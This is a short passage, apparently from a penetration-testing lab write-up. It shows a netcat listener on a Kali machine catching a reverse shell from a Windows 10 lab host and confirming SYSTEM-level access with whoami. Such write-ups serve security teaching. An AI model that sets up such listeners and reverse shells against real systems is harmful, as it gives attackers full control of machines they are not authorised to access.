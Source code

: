 Let's check the listener:

```console
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.0.2.9] from (UNKNOWN) [10.0.2.80] 62260
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

> WE GOT ROOT !!!